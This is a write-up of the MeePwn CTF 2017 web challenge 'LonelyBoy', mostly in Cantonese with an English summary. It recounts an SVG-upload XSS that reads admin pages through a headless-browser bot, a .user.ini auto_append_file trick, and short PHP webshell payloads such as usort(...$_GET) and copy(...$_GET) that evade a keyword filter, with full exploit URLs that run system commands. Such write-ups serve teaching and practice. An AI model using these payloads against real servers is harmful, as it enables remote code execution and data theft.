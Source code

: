 # MeePwn CTF 2017: LonelyBoy

### (web, 1000 points, 1 team solved)

說明
>I saw the website of a lonely boy out there, it looks like he wants to be cheered up, can you help him?
>
> Flag is in /
>
> Remote: 188.166.242.140

奇怪的通知

📢 Notice: We use phantomjs to evaluate your submitted url

孤獨的提示

💡 Hint 1: Wow .SaVaGe , nobody care about him... please come to tsu home, tsu want to make friend at his HOME!

💡 Hint 2: POST is so complex, better go to his HOME with GET

💡 Hint 3: Hey FRIEND! Information Gathering is important :)

💡 Hint 4: Well, its not a common php, another php :D

💡 Hint 5: u.....sort! sort! sort!, splat! splat! splat!.... some animals voice around his house..., try to rce :D


## 題解
呢題 No one plays. 真係夠晒 Lonely. 一開始個 Flag is in / 真係好誤導. 整到咁多 part 又係老點.

求其註冊登入之後有個位可以 upload 相. 

~~求其 upload 個 [1.jpg](http://static.zerochan.net/Ten.Count.full.1930214.jpg) 上去睇下結果話 file too large.~~

話說 upload 個扮係 jpg 既 txt 係會 block 9 你. 見到可以 upload svg 明眼人一睇就知係玩 XSS. 個 svg 你想寫乜都得.

隊個 Cookie stealer 冇反應. 之後我去 IRC 問個作者你個 bot 係咪壞輪左. 佢話好正常你再試下. 可能係個 bot 唔認 svg 係網頁.

因為佢有 check 個 file 是咪 from 佢個 website. 試下試下發現吊佢剩係 check 個 url 有冇 ht​tp://188.166.242.140/

即係 ht​tp://example.com/x.php?ht​tp://188.166.242.140/ 佢係識讀.

之後響自己個網度放個 iframe 連返去佢個網個 svg 又得. 

點解要搞咁多野連返去佢個網係因為有 CORS. 個 svg 響佢個網度就可以為所欲為 好似係

之後用個 xhr 讀下 admin login 狀態下 d page. 點知讀唔到. 唔知咩事. 

之後搞一大輪試下試下發現佢個 bot 成日 timeout. 所以我加個 loop 讀下我個網睇下佢幾時先 timeout.出事. 

點知佢唔識 timeout. 炸我 server 炸左半粒鐘. 我自己又硬膠膠唔 timeout. 佢又唔 timeout. 大家攬炒. 

我之後去 IRC 同佢話你個 bot 炸鳩緊我. 佢之後話 reset 左. 我再睇 log 發現佢係重 send 緊 request. 說好的 reset 呢.

大家睇到呢度係咪開始唔想睇呢. 之後我真係讀到 admin 狀態下既 files.php 啦. 點知條友仔半個 file 都冇 upload. 

之後睇返佢堆孤獨的提示. 佢果陣出到第一個提示 話咩 go HOME. 係咪去 /home 啊頂你你又話 Flag is in / 想點. 

之後發現個 homepage 叫 home.php. 讀下佢個 home.php 發現佢多左個咩 email_address_of_tsu_friend.

哇唔通你想玩 phantomjs 幫你 sql injection 定 mail(). 大佬真係隔山打牛. 

之後叫個 bot run ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=真email. 點知真係收唔到 email.

我去 IRC 問下條友 問佢你個 mail function 係咪壞能左. 佢叫我打返註冊用個 email 就算喎. 

頂你正常入個 username 算啦入乜鬼 email. 搞一大輪唔知點解變左做 friend. 之後多左個 upload box.

今次個 upload box 據聞可以 upload 任何野. 咁第一時間梗係 upload php. 吊啦 block 9 我. 咁 php 唔得試下 pht. 又唔能得. 

咁試下 phd. 得左. 但係 phd 係冇用既 (好似係). 因為 run 唔 lun 到. 

咁試下 upload .htaccess 加個 MIME type. 又 block 9 ht. 乜能都做唔到. 

之後打多過 20 個字又鬧我. 試試下打左個 Exec 響入面又話 Malicious! 吊啦. 

之後 **唔知點樣試到** .user.ini 可以加 d setting. 加個 auto_append_file=z 拿佢限 20 個字 auto_append_file=.svg 21個字. 吊佢.

因為你有 setting 冇 php 都冇能用. 然後 **唔知點解搵到** index.php 竟然係用 php. 

正常人應該用 index.htm 或者 index.html 啦. 又唔係要動用咩 server-side script. 

咁你 upload 多個 z 入面係 `<?=phpinfo();` 就有野睇.

---
呢段開始先仆街. 

佢個 upload 除左 block exec 之外重 block 好能多野. 咩 eval system passthru. 

試試下 include 冇事. 咁好正路 upload 返個 svg include 佢搞掂.

list 到個 / 入面有個 goodjobnowgetyoursfl4g 咁試下 cat 佢. 冇料到. 即係 directory.

之後想 list /goodjobnowgetyoursfl4g 果下先仆街. 無端端話 Malicious!

個作者響 IRC 話 block 漏 include 同 require. 吊你想點啊. 佢話之後會再出提示點玩喎. 你玩晒啦.

結果 on99 咁睇個 php manual 搵下 d 短名 function. 有個叫 dl 都唔知點能用. 

之後發現佢冇 block popen. 不過玩 popen 又要 reverse shell 好能煩.

---
搞下搞下之後佢出第五個提示話咩 usort splat. 吊又係用 d 濕鳩 callback. 咁用 usort 囉. 

至於 splat 係乜野? 佢係將個 array 爆做 argument 既奇怪 operator. 即係 python 入面 **kwargs d friend. 

因為你想用 querystring 塞野既話 你要用 $_GET[0], $_GET[x] 之類. 想塞兩舊就已經用好多字.

用 splat 就係 ...$_GET, 塞幾多都得. 最後個 file 係 `<?=usort(...$_GET);`

正常 usort 係會將 第一個 argument ($_GET[0]) 個 array 做 sorting. 如果有 callback 就係第 k 同 k+1 個 element 放去個 callback 度:

`usort(...$_GET)` ==> `$_GET[1]($_GET[0][0],$_GET[0][1]); $_GET[1]($_GET[0][1],$_GET[0][2]);` etc.

但係唔知做乜春佢個 server 係 `$_GET[1]($_GET[0][1],$_GET[0][0])`

結果要咁能樣 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=diu&1=print_r

先識 `print_r("diu",0)` (print_r 第二個 argument false 就會直接 echo 出黎. true 就儲去個 variable 度)

之後睇下 system 果堆 function. system 第二個 argument 要係個 variable reference 指返個 output. 

我響我個 server run `system("ls",0)` 係 run 唔能到既. 但係有朋友發現佢果度唔知點解 run 到.

之後就 
> ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0&0[1]=cat%20/goodjobnowgetyoursfl4g/Yes_This_Is_What_You_Are_Looking_FoR_FlagGgGg&1=system

搞一大堆咁能辛苦終於解到.

## 後記
佢個 usort 簡直係老點. 不知所謂. run `system("ls",0)` 就好似 run `0=1` 咁搞笑. usort 個 array 又好似調轉左咁.

做完之後發現有個 function 叫 copy 冇 block 到. 咁 `<?=copy(...$_GET);` 少佢一隻字添. 做多好多野添. 

例如 ht​tp://188.166.242.140/upload/whatever/index.php?0[0]=0.svg&0[1]=../yaoi.php

就會出 [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy) (真係 click 到架好似係)

---
# English version
I accidentially found this page and got the flag:

> [http://188.166.242.140/upload/yaoi.php](http://archive.is/5qJGy)

Just kidding.

In short it is "XSS read page + wtf + Webshell" 

<ol>
<li>XSS read page</li>
  <ul>
  <li>upload a file with javascript on the victim server to bypass CORS</li>
    <ul>
    <li>svg is perfect because other image format are checked</li>
    <li>the script includes logics to read home.php and send back to your server</li>
    <li>add some loops to read some pages to prevent the bot from timing out</li>
    </ul>
  <li>upload a page on your own server with <iframe src=that_svg_file> (instead of using <img> or directly query the svg file due to the bot issue)</li>
  <li>ask the bot to query the page with ?ht​tp://188.166.242.140/ at the end to bypass checking</li>
  </ul>

<li>wtf</li>
  <ul>
  <li>when you got the content of home.php, you found weird form with parameter email_address_of_tsu_friend</li>
  <li>ask the bot to query ht​tp://188.166.242.140/home.php?email_address_of_tsu_friend=your_email_account</li>
  <li>why you need to fill in your email account in the system? it is a feature maybe. </li>
  </ul>

<li>Webshell</li>
  <ul>
  <li>upload .user.ini with auto_append_file=whatever or auto_prepend_file=whatever. make whatever shorter.</li>
  <li>upload whatever with phpcode like &lt;?=phpinfo();, &lt;?=$_GET[0]('ls /');, &lt;?=usort(...$_GET); or &lt;?=copy(...$_GET);</li>
  <li>go to index.php and add some querystring according to your payload</li>
    <ul>
    <li>give ?0=system to &lt;?=$_GET[0]('ls /');</li>
    <li>give ?0[0]=0&0[1]=ls%20/&1=system to &lt;?=usort(...$_GET);</li>
    </ul>
  <li>do whatever you like</li>
  </ul>
 </ol>
